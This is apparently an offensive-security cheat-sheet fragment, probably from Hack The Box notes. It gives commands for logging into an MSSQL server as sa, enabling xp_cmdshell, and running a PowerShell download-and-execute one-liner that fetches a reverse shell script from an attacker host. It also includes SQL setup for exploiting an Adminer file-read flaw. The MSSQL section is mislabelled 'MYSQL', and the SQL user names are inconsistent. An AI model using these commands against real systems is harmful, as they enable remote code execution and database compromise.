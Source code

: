 ##### MYSQL
```
sqsh -S <ip> -U sa -P <password>
```

Enable xp_cmdshell into RvShell

```
xp_cmdshell 'whoami'
go
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell', 1
reconfigure
go
xp_cmdshell 'whoami'
go
xp_cmdshell 'powershell "IEX(New-Object Net.WebClient).downloadString(\"http://<ip>:8000/shell.ps1\")"'
go
```

Stuff for adminer.php (Set up user on kali mysql to connect to remote target sql. see https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool
```
CREATE DATABASE 'exploitdb';
CREATE USER exploituser@<KALIIP> IDENTIFIED BY 'Target Server';   
GRANT ALL PRIVILEGES ON htb_admirer.* TO exploit@10.10.14.2 WITH GRANT OPTION;
CREATE USER admirer@'%' IDENTIFIED BY 'Target Server';   
GRANT ALL PRIVILEGES ON exploitdb.* TO exploituser@'%' WITH GRANT OPTION;
FLUSH PRIVILEGES;
use htb_admirer;
CREATE TABLE test( 
  > name  VARCHAR(255),
  > color CHAR(7),
  > PRIMARY KEY (name) 
);
```

